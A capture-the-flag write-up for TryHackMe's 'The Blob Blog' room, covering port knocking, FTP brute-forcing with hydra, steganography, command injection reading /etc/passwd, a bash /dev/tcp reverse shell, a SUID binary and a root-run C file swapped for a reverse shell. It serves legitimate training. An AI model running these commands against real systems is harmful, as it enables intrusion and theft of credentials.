---

## Introduction

- Difficulty: Medium
- Time: 75 mins

> Successfully hack into bobloblaw's computer

Room Link: [The Blob Blog](https://tryhackme.com/room/theblobblog)

---

## Reconnaissance

Before anything, add the following line at the end of your `/etc/hosts` file.

```
10.48.135.206 blog.thm
```

Now we run a simple nmap scan on the host.

```
$ nmap -sC -sV -p- -T4 -Pn -A blog.thm
Nmap scan report for blog.thm (10.48.135.206)
Host is up (0.12s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 e7:28:a6:33:66:4e:99:9e:8e:ad:2f:1b:49:ec:3e:e8 (DSA)
|   2048 86:fc:ed:ce:46:63:4d:fd:ca:74:b6:50:46:ac:33:0f (RSA)
|   256 e0:cc:05:0a:1b:8f:5e:a8:83:7d:c3:d2:b3:cf:91:ca (ECDSA)
|_  256 80:e3:45:b2:55:e2:11:31:ef:b1:fe:39:a8:90:65:c5 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   153.12 ms 192.168.128.1
2   ...
3   153.17 ms blog.thm (10.48.135.206)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

There's a web server. Let's check that out!



It is the default home page when `apache2` is installed for the first time in a Linux server. Let's check the source code of the page.





---

## Shell as www-data

There are two comments in the source code, one of which has the encoded the password. The other one has Base64 encoded data (because of the `==` at the end).

Use the following command to decode it.

```
$ echo -n 'K1st...==' | base64 -d
```

### Port Knocking

The output you see is a bit weird. It only contains these characters `+-.<>[]`. It's actually code written in a programming language known as Brainf**k. Yeah, it's written code.

> [!NOTE]
> Brainf\*\*k is an esoteric programming language created in 1993 by Swiss student Urban Müller. Designed to be extremely minimalistic, the language consists of only eight simple commands, a data pointer, and an instruction pointer. Brainf\*\*k is an example of a so-called Turing tarpit: it can be used to write any program, but it is not practical to do so because it provides so little abstraction that the programs get very long or complicated. While Brainf\*\*k is fully Turing-complete, it is not intended for practical use but to challenge and amuse programmers. Brainf\*\*k requires one to break down programs into small and simple instructions. [Wikipedia]

To run this code, we can search for some online Brainf**k compilers. Executing it, we get the following text as the output.

```
When I was a kid, my friends and I would always knock on 3 of our neighbors doors.  Always houses 1, then 3, then 5!
```

For an unsuspecting user, it's just nothing. If you have played enough CTFs, you might recognize this is talking of a concept known as **Port Knocking**.

> [!NOTE]
> Port knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. [Wikipedia]

Now there are three ways to do port knocking.

1. Using `knockd` package
```
$ sudo apt install knockd
$ knock blog.thm 1 3 5
```

2. `nmap` and some scripting
```shell
for port in 1 3 5; do nmap -Pn --host-timeout 201 --max-retries 0 -p $port; done
```

3. Using just netcat
```
$ nc blog.thm 1
$ nc blog.thm 3
$ nc blog.thm 5
```

### Bruteforce FTP

After the knocking, we do another elaborate `nmap` scan, to see which new ports have opened, using the same command as previous.

```
$ nmap -sC -sV -p- -T4 -Pn -A blog.thm
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-29 17:10 +0530
Nmap scan report for blog.thm (10.48.135.206)
Host is up (0.045s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.2
22/tcp   open     ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 e7:28:a6:33:66:4e:99:9e:8e:ad:2f:1b:49:ec:3e:e8 (DSA)
|   2048 86:fc:ed:ce:46:63:4d:fd:ca:74:b6:50:46:ac:33:0f (RSA)
|   256 e0:cc:05:0a:1b:8f:5e:a8:83:7d:c3:d2:b3:cf:91:ca (ECDSA)
|_  256 80:e3:45:b2:55:e2:11:31:ef:b1:fe:39:a8:90:65:c5 (ED25519)
80/tcp   open     http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp  open     http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)
5355/tcp filtered llmnr
8080/tcp open     http    Werkzeug httpd 1.0.1 (Python 3.5.3)
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Werkzeug/1.0.1 Python/3.5.3
Device type: general purpose|specialized
Running (JUST GUESSING): Linux 3.X|5.X|4.X|6.X (87%), Crestron 2-Series (87%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:crestron:2_series cpe:/o:linux:linux_kernel:5.4 cpe:/o:linux:linux_kernel:4.10 cpe:/o:linux:linux_kernel:6
Aggressive OS guesses: Linux 3.8 - 3.16 (87%), Crestron XPanel control system (87%), Linux 3.10 - 3.13 (86%), Linux 3.13 (86%), Linux 5.4 (86%), Linux 4.10 (86%), Linux 4.15 - 5.19 (85%), Linux 5.14 - 6.8 (85%), Linux 4.4 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   45.68 ms 192.168.128.1 (192.168.128.1)
2   ...
3   46.23 ms blog.thm (10.48.135.206)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.32 seconds
```

Following is the summary:

```
21/ftp
22/ssh
80/http
445/http
5355/unknown
8080/http
```

We have checked the source code of the server at port 80. I also did a directory brute force on it, nothing useful came up.

Let's check port 445.

It's source code contains a password to some service.



Also a directory bruteforce on this port, reveals a hidden endpoint.



The `/user` endpoint contains what looks like an OpenSSH private key. But it's says invalid format, for some reason.





For now let's check source code and directory bruteforcing for port 8080. The source code has nothing here but directory bruteforcing reveals some directories.



The `/login` endpoint has a simple login page. We do not have the credentials for it yet.

Until now, we have two passwords (one plaintext and one encoded). Let's decode the encoded password. After some trial-and-error with Base-N encodings, I found its Base-58 encoding. Using CyberChef, I got the password.

So now we have two passwords and three different places to log into (ssh, ftp and login page). Let's try each one of them, starting with the ftp service.

The intro text of the room contains a possible username `bobloblaw`. So I created a file `users.txt` with possible usernames in it. Here are they:

```
bob
bobloblaw
admin
user
root
```

I also created a file `pass.txt` containing the two plaintext passwords we got, because I don't know which combination of username and password will be correct.

Then we use `hydra` to bruteforce `ftp`.

```
$ hydra -L users.txt -P pass.txt ftp://blog.thm
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-29 20:53:09
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:5/p:2), ~1 try per task
[DATA] attacking ftp://blog.thm:21/
[21][ftp] host: blog.thm   login: bob   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-10-29 20:53:33
```

Let's login to `ftp` and see what's waiting.

### Reverse shell



The whole FTP session is shown here. We got an image `cool.jpeg`. (maybe Steganography?!)

Well, I am right. The image has a hidden file inside. I used the `steghide` tool to extract it.

```
$ steghide --info cool.jpeg
"cool.jpeg":
  format: jpeg
  capacity: 423.0 Byte
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "out.txt":
    size: 43.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

There is a file inside the image, named `out.txt`. It will ask for a passphrase, which is already in `pass.txt`, just figure out which one! To extract the file, use this command `steghide --extract -sf cool.jpeg`.

Now, `out.txt` contains an encrypted text and another web endpoint. Visiting the endpoint (figure out whether it's on port 80, 445 or 8080), we have another note.


The thing blurred in the image, does not at all look like a password to something.

It took some figuring out, that it was a Vigenere Cipher, and the key was given at the hidden endpoint found in `out.txt`. That key would decrypt the encrypted text also given in `out.txt`.



The plaintext has the format `username:password`. These are the creds for the login page.


Very simple blog page, with 6 blog posts and review option. I entered random text in the text box. And when I click on the `review` hyperlink, I see the same text exactly reflected on the page. Well there is possibility of Reflected XSS (or Stored).

Then, I entered `<h1>text</h1>` and clicked `review`.


Well there is Stored XSS (Stored and not Reflected, because my input is permanently stored on the server until it is replaced with new content), but it's of no use to us.

Now after discovering that, I was stuck here for over 15 minutes! I decided to take a peek into other people's writeup.

What they did, is mind blowing. They just entered `ls` in the text box. And the review page showed some directory contents. How on earth I am supposed to understand there is command injection possible here??? Maybe I am not that expert yet!

So I entered `cat /etc/passwd`, and the output came as expected.



Let's get a proper shell, rather than typing commands in the text box. First setup a listener, on your machine (if using VPN) or the Attackbox, using `ncat -lnvp 1337`.

I used this payload to get a reverse shell.

```shell
bash -i >& /dev/tcp/192.168.138.182/1337 0>&1
```



---

## Shell as bobloblaw

The shell we have here is very basic. We upgrade to a stable shell, using `python3 -c "import pty;pty.spawn('/bin/bash')"`.

Let's find some SUID binaries, to see if some of them looks out of the place.



`/usr/bin/blogFeedback` definitely seems out of place. Let's see what it is.

```
www-data@bobloblaw-VirtualBox:/home$ blogFeedback
blogFeedback
Order my blogs!
www-data@bobloblaw-VirtualBox:/home$
```

I downloaded the binary to my local machine and reverse engineered it using binaryninja.



> [!INFO] Code Breakdown
> The code checks for the number of command line arguments. If it is something other than 7, it prints "Order my blogs!" and exits, which is what was happening the first time we ran it. If it is equal to 7, it then executes some extra code. First a variable `n` is declared with the value 1. Then there's an infinite loop, which first checks whether `n` is more than 6 or not. If yes, it runs `/bin/sh` as `bobloblaw` (uid=1000 or 0x3e8). This is what we want. If `n` is not more than 6, it checks whether `argv[n]` is equal to `7-n` or not. We want it to be equal, or else the loop breaks and we never get the shell. At first, n = 1. So we need to have `argv[n]` equal to `7-n`. So `argv[1]` must be 7-1 = 6. Similarly `argv[2]` must be 5. So the correct way to execute the binary would be this `blogFeedback 6 5 4 3 2 1`.

```
$ blogFeedback 6 5 4 3 2 1
blogFeedback 6 5 4 3 2 1
id
uid=1000(bobloblaw) gid=33(www-data) groups=33(www-data)
```

We are now user `bobloblaw`. After some navigating, we have the user flag!



---

## Shell as root

If you leave the prompt open for sometime, you will see a text getting repeatedly printed on the terminal.



Well, it's high time we root the machine. Or else the text will never stop.

Now, since the text is printed continuously, there must be some process doing it. So I download the static version of `pspy64` on the target and wait until its printed next time.



> [!NOTE]
> `pspy` is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. [GitHub]

From the `pspy` output, it seems there is a hidden `.c` file being compiled and executed and then deleted. Let's see what code it contains.



Very well, just a simple `printf` being run continuously (as `root`, uid=0 from pspy output). If we replace the code with that of another reverse shell, we get shell as root.

I found some reverse shells in C online and just changed the IP and port, and were good to go.

First create the `.c` file on your machine and transfer it to the target, using `python3 -m http.server` and `wget`. Before all that, setup a listener on port 1338 to catch the shell. Then just wait!

After getting shell, navigate to `/root` and voila! We have the root flag as well!


